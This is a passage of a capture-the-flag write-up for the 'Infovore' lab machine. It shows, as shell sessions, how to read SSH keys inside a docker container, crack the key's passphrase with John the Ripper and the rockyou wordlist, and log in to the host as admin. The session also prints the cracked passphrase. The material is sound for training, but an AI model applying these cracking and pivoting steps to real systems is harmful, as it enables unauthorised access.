 ## Escape privileged docker container

There is a `.ssh` directory in the `/root` folder, which contains keys. The public key reveals that we can connect as `admin` to `192.168.150.1`.

~~~
root@e71b67461f6c:~/.ssh# cat id_rsa.pub
cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDN/keLDJowDdeSdHZz26wS1M2o2/eiJ99+acchRJr0lZE0YmqbfoIo+n75VS+eLiT03yonunkVp+lhK+uey7/Tu8JsQSHK1F0gci5FG7MKRU4/+m+0CODwVFTNgw3E4FKg5qu+nt6BkBThU3Vnhe/Ujbp5ruNjb4pPajll2Pv5dyRfaRrn0DTnhpBdeXWdIhU9QQgtxzmUXed/77rV6m4AL4+iENigp3YcPOjF7zUG/NEop9c1wdGpjSEhv/ftjyKoazFEmOI1SGpD3k9VZlIUFs/uw6kRVDJlg9uxT4Pz0tIEMVizlV4oZgcEyOJ9NkSe6ePUAHG7F+v7VjbYdbVh admin@192.168.150.1
root@e71b67461f6c:~/.ssh# ssh admin@192.168.150.1
ssh admin@192.168.150.1
Enter passphrase for key '/root/.ssh/id_rsa': 

admin@192.168.150.1's password: 
~~~

The private key is password protected, and the password is `choclate93`:

~~~
kali@kali:/data/infovore_1/files$ /data/src/john/run/john admin.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
choclate93       (admin.key)
1g 0:00:00:06 DONE (2020-09-28 11:15) 0.1661g/s 2382Kp/s 2382Kc/s 2382KC/sa6_123..*7¡Vamos!
Session completed. 
~~~

Let's connect:

~~~
root@e71b67461f6c:~/.ssh# ssh admin@192.168.150.1
ssh admin@192.168.150.1
Enter passphrase for key '/root/.ssh/id_rsa': choclate93


The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jun 23 05:59:43 2020 from 192.168.150.21
admin@infovore:~$ id
id
uid=1000(admin) gid=1000(admin) groups=1000(admin),999(docker)
admin@infovore:~$ hostname
hostname
infovore
~~~
